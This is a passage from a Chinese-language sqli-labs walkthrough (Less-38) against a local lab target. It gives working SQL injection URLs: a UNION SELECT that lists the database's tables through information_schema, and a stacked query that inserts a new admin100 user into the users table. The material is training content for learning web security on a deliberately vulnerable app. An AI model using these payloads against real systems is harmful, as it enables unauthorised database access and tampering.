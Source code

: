 验证：

URL：http://192.168.10.150/sqlilabs/Less-38/?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security'--+

通过返回数据明显是少了一个test表。

![img](assets/YlyX8GeT3cfaKmH.jpg) 

#### 3.8.3.4.**创建用户**

创建一个ID为16，用户名为：admin100，密码为：admin100的用户。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=1'; insert into users values(16,'admin100','admin100');--+

![img](assets/PsjbWANM6GCqQpY.jpg) 

验证：

通过输入ID号，获取我们创建的用户。

URL：http://192.168.10.150/sqlilabs/Less-38/?id=16

![img](assets/Nad4HcOnqV9xTEt.jpg) 
